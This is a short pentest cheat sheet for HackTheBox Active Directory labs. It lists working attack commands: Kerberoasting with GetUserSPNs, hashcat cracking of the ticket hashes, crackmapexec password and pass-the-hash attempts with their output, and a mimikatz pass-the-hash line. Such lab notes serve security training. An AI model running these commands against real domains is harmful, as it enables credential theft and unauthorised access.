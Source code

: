 ### **Service Principal Names (SPNs)**

```
GetUserSPNs.py   active.htb/svc_tgs  -dc-ip 10.129.73.237 -request
```

Crack SPN hash with hashcat

```
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```

## Get AD Users

```
GetADUsers.py -all  active.htb/svc_tgs  -dc-ip  10.129.75.99
```

## crackmapexec

```
with hash
$ crackmapexec smb apt.htb -u henry.vinson -H 2de80758521541d19cabba480b260e8f
SMB         apt.htb         445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:2de80758521541d19cabba480b260e8f STATUS_LOGON_FAILURE 

with password
kali@kali:~/htb$ crackmapexec smb 10.129.96.155  -u marko -p 'Welcome123!' --continue-on-success
```

Or try with a list of hashes. Be aware that if the box has has [wail2ban](https://github.com/glasnt/wail2ban) installed, it will prevent this kind of bruteforce attack. You might have to reset the box to get it back.

```
$ crackmapexec smb htb.local -u henry.vinson -H hashes
SMB         apt.htb         445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe STATUS_LOGON_FAILURE 
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb STATUS_LOGON_FAILURE 
SMB         apt.htb         445    APT              [-] htb.local\henry.vinson:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211 STATUS_LOGON_FAILURE 
```

sekurlsa::pth /user:henry.vinson /domain:htb.local /dc:htb.local /ntlm:e53d87d42adaa3ca32bdb34a876cbffb /command:powershell
